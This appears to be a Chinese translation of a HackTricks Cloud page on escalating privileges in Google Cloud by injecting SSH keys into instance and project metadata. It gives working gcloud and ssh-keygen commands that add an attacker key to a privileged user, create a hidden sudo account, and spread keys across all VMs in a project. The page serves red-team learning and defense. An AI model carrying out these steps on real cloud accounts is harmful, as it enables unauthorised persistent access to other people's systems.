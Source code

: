 # GCP - 添加自定义 SSH 元数据

## GCP - 添加自定义 SSH 元数据

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

对实例的元数据修改可能导致 **如果攻击者获得必要权限，将会带来重大安全风险**。

#### **将 SSH 密钥纳入自定义元数据**

在 GCP 上，**Linux 系统** 通常会从 [Google Compute Engine 的 Python Linux 客户环境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) 执行脚本。其关键组件是 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在 **定期检查** 实例元数据端点以获取 **授权 SSH 公钥的更新**。

因此，如果攻击者能够修改自定义元数据，他可以使守护进程找到一个新的公钥，该公钥将被处理并 **集成到本地系统中**。该密钥将被添加到 **现有用户的 `~/.ssh/authorized_keys` 文件中，或者根据密钥的格式可能创建一个具有 `sudo` 权限的新用户**。攻击者将能够攻陷主机。

#### **将 SSH 密钥添加到现有特权用户**

1. **检查实例上的现有 SSH 密钥：**
*   执行命令以描述实例及其元数据，以定位现有 SSH 密钥。输出中的相关部分将在 `metadata` 下，具体是 `ssh-keys` 键。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* 注意 SSH 密钥的格式：用户名在密钥之前，用冒号分隔。
2. **为 SSH 密钥元数据准备文本文件：**
* 将用户名及其对应的 SSH 密钥的详细信息保存到名为 `meta.txt` 的文本文件中。这对于保留现有密钥并添加新密钥至关重要。
3. **为目标用户（本例中的 `alice`）生成新的 SSH 密钥：**
*   使用 `ssh-keygen` 命令生成新的 SSH 密钥，确保注释字段（`-C`）与目标用户名匹配。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 将新的公钥添加到 `meta.txt` 中，模仿实例元数据中的格式。
4. **更新实例的 SSH 密钥元数据：**
*   使用 `gcloud compute instances add-metadata` 命令将更新的 SSH 密钥元数据应用于实例。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **使用新的 SSH 密钥访问实例：**
*   使用新的密钥通过 SSH 连接到实例，以目标用户（本例中的 `alice`）的身份访问 shell。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **创建新特权用户并添加 SSH 密钥**

如果没有找到有趣的用户，可以创建一个新用户并赋予其 `sudo` 权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

通过**在项目级别应用SSH密钥**，可以扩大SSH访问到云环境中的多个虚拟机（VM）。这种方法允许对项目中未明确阻止项目范围内SSH密钥的任何实例进行SSH访问。以下是简要指南：

1. **在项目级别应用SSH密钥：**
*   使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非某个VM启用了“阻止项目范围内SSH密钥”选项。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **使用项目范围内的密钥SSH进入实例：**
* 在项目范围内的SSH密钥到位后，您可以SSH进入项目中的任何实例。未阻止项目范围内密钥的实例将接受SSH密钥，从而授予访问权限。
* SSH进入实例的直接方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥尝试访问。

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
